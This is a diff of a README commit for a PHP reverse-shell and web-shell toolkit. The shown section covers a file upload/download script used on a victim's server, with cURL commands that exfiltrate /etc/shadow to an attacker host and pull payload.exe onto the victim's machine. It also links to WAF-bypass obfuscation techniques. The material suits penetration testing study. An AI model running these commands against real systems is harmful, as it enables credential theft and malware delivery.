

Before and after one commit to ivan-sincek/php-reverse-shell, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -48,50 +48,52 @@ Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shel
 
 Check the [simple PHP web shell v2](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get_v2.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.
 
-Find out more about PHP obfuscation techniques for older versions of PHP at [lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF). Credits to the author!
+Find out more about PHP obfuscation techniques for old versions of PHP at [lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF). Credits to the author!
 
 ## File Upload/Download Script
 
 Check the [simple PHP file upload/download script](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/files.php) based on HTTP POST request for file upload and HTTP GET request for file download.
 
-When downloading a file, you should [URL encode](https://www.urlencoder.org) the file path, and specify name of the output file.
+When downloading a file, you must [URL encode](https://www.urlencoder.org) the file path, and don't forget to specify the output file if using cURL.
 
-Depending on the server configuration, downloading a file through HTTP GET parameter might not always work, so you will have to hardcore the file path in the script.
+When uploading a file, and don't forget to specify `@` before the file path.
+
+Depending on the server configuration, downloading a file through HTTP GET request parameter might not always work, instead, you will have to hardcore the file path in the script.
 
 ### Case 1: Upload the Script to the Victim’s Server
 
-Navigate to the script on the victim's server with your preferred web browser, or use cURL from you PC.
+Navigate to the script on the victim's web server with your preferred web browser, or use cURL from you PC.
 
-Upload a file to the victim's server web root directory from your PC:
+Upload a file to the server's web root directory from your PC:
 
 ```fundamental
-curl -s -k -X POST https://victim.com/files.php -F file=@/root/payload.exe
+curl -skL -X POST https://victim.com/files.php -F file=@/root/payload.exe
 ```
 
-Download a file from the victim's PC to your PC:
+Download a file from the server to your PC:
 
 ```fundamental
-curl -s -k -X GET https://victim.com/files.php?file=/etc/shadow -o shadow
+curl -skL -X GET https://victim.com/files.php?file=/etc/shadow -o shadow
 ```
 
-If you use reverse shell and you have elevated your initial privileges, this script might not have the same privileges as your shell. To download a certain file, you might need to copy the file to the web root directory and give it necessary read permissions.
+If you elevated your initial privileges within your reverse shell, this script might not have the same privileges as the shell. In that case, to download a certain file, you might need to copy the file to the web root directory and set the necessary read permissions.
 
 ### Case 2: Upload the Script to Your Server
 
 From your PHP reverse shell, run the following cURL commands.
 
-Upload a file from the victim's PC to your server web root directory:
+Upload a file from the victim's PC to your server's web root directory:
 
 ```fundamental
-curl -s -k -X POST https://your-server.com/files.php -F file=@/etc/shadow
+curl -skL -X POST https://my-server.com/files.php -F file=@/etc/shadow
 ```
 
-Download a file from your PC to the victim's PC:
+Download a file from your server's web root directory to the victim's PC:
 
 ```fundamental
-curl -s -k -X GET https://your-server.com/files.php?file=/root/payload.exe -o payload.exe
+curl -skL -X GET https://my-server.com/files.php?file=/root/payload.exe -o payload.exe
 
-curl -s -k -X GET https://your-server.com/payload.exe -o payload.exe
+curl -skL -X GET https://my-server.com/payload.exe -o payload.exe
 ```
 
 ## Set Up a Listener
````
Also changed, not shown: other parts of README.md (+3 -3 lines), img/ncat.png, img/scripts_dump.jpg, 9 other files.
